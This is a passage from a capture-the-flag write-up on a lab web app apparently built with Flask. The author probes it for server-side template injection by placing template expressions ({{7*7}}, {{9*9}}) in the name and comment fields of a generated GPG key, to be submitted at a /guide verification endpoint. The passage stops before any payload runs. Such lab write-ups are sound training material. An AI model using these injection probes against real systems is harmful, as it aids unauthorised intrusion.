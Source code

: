 In the home page right at the bottom, we can see that this webapp is powered by Flask. This immediately had my attention towards SSTI, but I first had to find an endpoint which could possibly reflect text in order to perform this exploit.

I first try looking into `/contact` because I thought that there might also be a command injection exploit when trying to decrypt the PGP encrypted text. This attempt failed and I was neither getting any reflected text or any form of RCE via command injection, so I start looking at the `/guide` endpoint to see if anything works there.

## Exploit:

`/guide` allows you to enter your own PGP public key and signed message to verify it, which had me generating PGP keys in order to see if there is any SSTI possible:
```vim
┌──(kali㉿kali)-[~/sandworm]
└─$ gpg --full-generate-key 
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Please select what kind of key you want:
   (1) RSA and RSA (default)
   (2) DSA and Elgamal
   (3) DSA (sign only)
   (4) RSA (sign only)
  (14) Existing key from card
Your selection? 
RSA keys may be between 1024 and 4096 bits long.
What keysize do you want? (3072) 
Requested keysize is 3072 bits
Please specify how long the key should be valid.
         0 = key does not expire
      <n>  = key expires in n days
      <n>w = key expires in n weeks
      <n>m = key expires in n months
      <n>y = key expires in n years
Key is valid for? (0) 
Key does not expire at all
Is this correct? (y/N) y

GnuPG needs to construct a user ID to identify your key.

Real name: {{7*7}}
Email address: a@a.com
Comment: {{9*9}}
You selected this USER-ID:
    "{{7*7}} ({{9*9}}) <a@a.com>"

Change (N)ame, (C)omment, (E)mail or (O)kay/(Q)uit? o
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
gpg: revocation certificate stored as '/home/kali/.gnupg/openpgp-revocs.d/505C38FF7B1287FFFC87A6FEE8050924E010BDB5.rev'
public and secret key created and signed.

pub   rsa3072 2023-06-22 [SC]
      505C38FF7B1287FFFC87A6FEE8050924E010BDB5
uid                      {{7*7}} ({{9*9}}) <a@a.com>
```
